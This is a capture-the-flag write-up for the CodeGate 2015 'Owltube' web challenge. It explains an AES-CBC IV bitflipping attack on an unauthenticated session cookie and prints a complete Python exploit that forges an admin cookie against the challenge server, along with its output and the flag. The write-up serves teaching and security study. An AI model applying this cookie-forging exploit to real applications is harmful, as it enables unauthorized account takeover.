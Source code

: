 # CodeGate General CTF 2015: Owltube

**Category:** Web
**Points:** 400
**Description:** 

> You're welcome to betatest our new social media site, it's going to be the next big thing.
> 
> Server : http://54.64.164.100:5555/
> Script : [index.py](challenge/index.py)
> 
> - option : please check the notice board.

## Write-up

The challenge consists of a python Tornado web application using mongodb and allows users to register, login and add links to youtube videos.
User sessions are managed through an authentication cookie that is constructed as follows:

>```python
>def set_cookie(resp, cookie):
>	cookie = json.dumps(cookie)
>
>	iv = Random.new().read(BS)
>	aes = AES.new(SECRET_KEY, AES.MODE_CBC, iv)
>	cookie = pad(cookie)
>	cookie = iv + aes.encrypt(cookie)
>	cookie = cookie.encode("base64")
>	cookie = cookie.replace("\n", "")
>
>	resp.set_cookie("auth", cookie)
>```

The cookie value passed to set_cookie is set, upon successful login, to a json representation of the following dictionary:

>```python
>	u = {}
>	u["u"] = request.form.get("user")
>	u["pw"] = request.form.get("pw")
>```

The vulnerability here resides in the fact that the cookie is encrypted using AES in Cipher Block Chaining (CBC) mode. In CBC mode, each block of plaintext is XORed to the previous block of ciphertext before being encrypted, using a random IV for the first block of plaintext. Conversely, upon decryption, each block of ciphertext is decrypted and subsequently XORed to the previous block of ciphertext (or the IV in case of the first block) to yield the final decrypted block.

![alt cbc_decryption](cbc_decryption.png)

Since CBC mode comes with no authentication mechanism (eg. a MAC, signature, etc.) the application has no means to detect if the encrypted data it processes has been altered or not by a malicious client. This allows us to perform a bitflipping attack on our encrypted cookie. Flipping a byte in a ciphertext block will corrupt the corresponding decrypted block but produce a corresponding flip in the byte at the same block-offset within the subsequent block. Hence, given a known plaintext byte at offset i in the plaintext, we can alter the byte at offset i in the final decryption result by flipping byte (i-block_size) of the ciphertext (or byte i of the IV if i < block_size).

Since the decryption result must always be a valid json string, we cannot afford corrupting the ciphertext itself and hence are restricted to flipping the first 16 bytes of the plaintext by corrupting the IV only. We can set bytes at offsets 0..15 in the decryption result to our target text by corrupting the IV in the following manner:

>```python
>iv[i] = chr(ord(known_plaintext[i]) ^ ord(iv[i]) ^ ord(target_text[i]))
>```

This, of course, requires known plaintext for at least the first 16 bytes. If we register a user, we know the full plaintext of the cookie:

>```python
>{"u": "username", "pw": "password"}
>```

In the application source we can see the following code for the index:

>```python
>def index():
>	if is_logged_in():
>		videos = []
>		for i, vid in enumerate(g.db.videos.find({"user": g.user["u"]})):
>```

We will try to construct a cookie with a plaintext that allows us to achieve successful login as the user "admin" (which we guessed to be the target account for flag retrieval, since it was the only username always taken while the rest of the usernames were periodically wiped from the database). If we register a user with username "x" and password "admin", our known plaintext will be:

>```python
>{"u": "x", "pw": "admin"}
>```

We want to flip this to the following in order to eliminate the "pw" field so we can achieve successfull login:

>```python
>{"u":  "x", "u": "admin"}
>```


The [final exploit](solution/owltube_exploit.py) is as follows:

>```python
>#!/usr/bin/python
>#
># CODEGATE General CTF 2015
># OWLTUBE (WEB/400) Exploit
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import requests
>from Crypto.Cipher import AES
>
>BS = AES.block_size
>
>class exploit:
>	def __init__(self):
>		self.r = None
>		self.cookies = None
>		return
>
>	def getAuthcookie(self):
>		if(self.cookies):
>			return self.cookies['auth']
>		else:
>			return None
>
>	def login(self, url, username, password):
>		payload = {'user': username, 'pw': password}
>		self.r = requests.post(url + '/login', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def register(self, url, username, password, email):
>		payload = {'user': username, 'pw': password, 'email': email}
>		self.r = requests.post(url + '/register', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def visit(self, url, authcookie):
>		cookie = {'auth': authcookie}
>		self.r = requests.get(url, cookies=cookie)
>		return (self.r.text, self.r.status_code)
>
>email = "x@x"
>username = "x"
>password = "admin"
>
>url = 'http://54.64.164.100:5555'
>
>sploit = exploit()
>
>sploit.register(url, username, password, email)
>sploit.login(url, username, password)
>
>cookie = sploit.getAuthcookie()
>(iv, e) = (cookie.decode('base64')[:BS], cookie.decode('base64')[BS:])
>
>print "[+]Cookie: [%s]" % cookie
>print "[+]IV: [%s]" % iv.encode('hex')
>print "[+]Ciphertext: [%s]" % e.encode('hex')
>
>plaintext = '{"u": "x", "pw": "admin"}'
>targetext = '{"u":  "x", "u": "admin"}'
>
>iv2 = list(iv)
>for i in range(0, 16):
>	iv2[i] = chr(ord(plaintext[i]) ^ ord(iv2[i]) ^ ord(targetext[i]))
>
>iv2 = "".join(iv2)
>
>cookie = (iv2 + e).encode("base64").replace("\n", "")
>
>(t, s) = sploit.visit(url, cookie)
>
>print t
>```

Which will yield the following result:

>```bash
>$ python owltube_exploit.py
>[+]Cookie: ["YOk8jak/YUSlKfeEYkJWfkqVJ0kui19L4OVjlO8buQAKYbVZT4dyIeiyKATU/BK8"]
>[+]IV: [60e93c8da93f6144a529f7846242567e]
>[+]Ciphertext: [4a9527492e8b5f4be0e56394ef1bb9000a61b5594f877221e8b22804d4fc12bc]
>```
>```html
><html>
><head>
>        <title>Owltube - index</title>
>        <link href="static/css/bootstrap.min.css" rel="stylesheet" media="screen">
>(...)
>
>               <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
>(...)
>```

Giving the flag: 

>the_owls_are_watching_again